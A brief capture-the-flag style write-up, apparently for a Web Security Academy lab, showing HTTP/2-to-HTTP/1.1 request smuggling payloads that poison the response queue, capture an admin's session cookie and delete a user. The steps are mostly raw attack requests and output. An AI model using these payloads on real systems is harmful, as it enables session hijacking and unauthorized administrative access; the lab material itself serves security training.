






# Response queue poisoning via H2.TE request smuggling

## This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

## To solve the lab, delete the user `carlos` by using response queue poisoning to break into the admin panel at `/admin`. An admin user will log in approximately every 15 seconds.

## The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection

---

step 1

```
Transfer-Encoding: chunked
Content-Length: 11

0

userid=test

```



step 2

```
Transfer-Encoding: chunked
Content-Length: 67

0

GET /post?postId=5 HTTP/1.1
Content-Length: 12

userid=test

```



step 3

```
Transfer-Encoding: chunked
Content-Length: 59

0

GET /admin HTTP/1.1
Content-Length: 12

userid=test
```

HTTP/2 401 Unauthorized



step 4

```
POST /x HTTP/2
Host: 0a17000003a74f25815f2af1001a00b0.web-security-academy.net
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: 0a17000003a74f25815f2af1001a00b0.web-security-academy.net
```



note down details

```
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=stQrgL4chP9frilHAvELZpfBT85oG1fW; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length:
```

step 5
`session=stQrgL4chP9frilHAvELZpfBT85oG1fW`



step 6

click on admin panel and delete carlos account


